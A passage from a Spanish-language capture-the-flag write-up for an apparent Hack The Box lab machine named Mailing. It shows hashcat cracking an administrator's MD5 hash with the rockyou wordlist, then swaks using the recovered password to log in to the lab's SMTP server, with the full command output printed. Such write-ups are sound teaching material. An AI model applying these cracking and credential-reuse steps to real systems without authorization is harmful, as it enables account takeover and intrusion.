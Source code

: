 ### <span style="color:#68e8ff"> Hashcat: </span> 

```bash
hashcat -m 0 -a 0 hashAdminPass.txt /usr/share/wordlists/rockyou.txt

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

841bb5acfa6779ae432fd7a4e6600ba7:homenetworkingadministrator
```

### <span style="color:#66CC00"> Opciones de hashcat </span>

* <span style="color:#7DFFBA">-m 0</span>: Especifica que el tipo de hash es MD5.
* <span style="color:#7DFFBA">-a 0</span>: Especifica que usas un ataque de diccionario (wordlist).

Y conseguimos descifrar el hash MD5 con éxito del Administrador, pero no de la database.

Podemos probar si estas credenciales funcionan con SMTP (Simple Mail Transfer Protocol) con <span style="color:yellow">`Swaks (Swiss Army Knife for SMTP)`</span>, una herramienta de línea de comandos diseñada para probar y depurar servidores SMTP . Es especialmente útil para los administradores de sistemas y los profesionales de seguridad que necesitan verificar la configuración y el funcionamiento de sus servidores de correo electrónico.

Vamos a intentar conectarnos al servidor mailing.htb, autenticandonos utilizando el método de autenticación LOGIN y el usuario administrator@mailing.htb

```bash
❯ swaks -server mailing.htb --auth LOGIN --auth-user administrator@mailing.htb --auth-password homenetworkingadministrator --quit-after AUTH
=== Trying mailing.htb:25...
=== Connected to mailing.htb.
<-  220 mailing.htb ESMTP
 -> EHLO oso.oso
<-  250-mailing.htb
<-  250-SIZE 20480000
<-  250-AUTH LOGIN PLAIN
<-  250 HELP
 -> AUTH LOGIN
<-  334 VXNlcm5hbWU6
 -> YWRtaW5pc3RyYXRvckBtYWlsaW5nLmh0Yg==
<-  334 UGFzc3dvcmQ6
 -> aG9tZW5ldHdvcmtpbmdhZG1pbmlzdHJhdG9y
<-  235 authenticated.
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```
Y como vemos tenemos acceso al servidor de correo en términos de autenticación.
